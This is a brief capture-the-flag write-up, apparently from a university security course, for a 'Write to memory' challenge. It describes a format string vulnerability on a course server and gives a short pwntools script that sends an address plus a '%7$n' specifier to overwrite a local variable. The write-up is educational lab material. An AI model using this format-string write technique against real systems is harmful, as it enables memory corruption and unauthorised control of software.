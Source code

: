 # Challenge `Write to memory` writeup

- Vulnerability:
  - Format string
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port 23193
- Impact:
  - Allows user to alter local variable

## Steps to reproduce

1. Using `gdb` we can verify that `target` is stored in memory address `0x804c040`
2. We can modify the previous string in order to write to that address

The code used was the following:

```py
from pwn import *

s = remote("mustard.stt.rnl.tecnico.ulisboa.pt", 23193, timeout=100)
s.sendline(b"\x40\xc0\x04\x08%7$n")
print(s.recvall())
```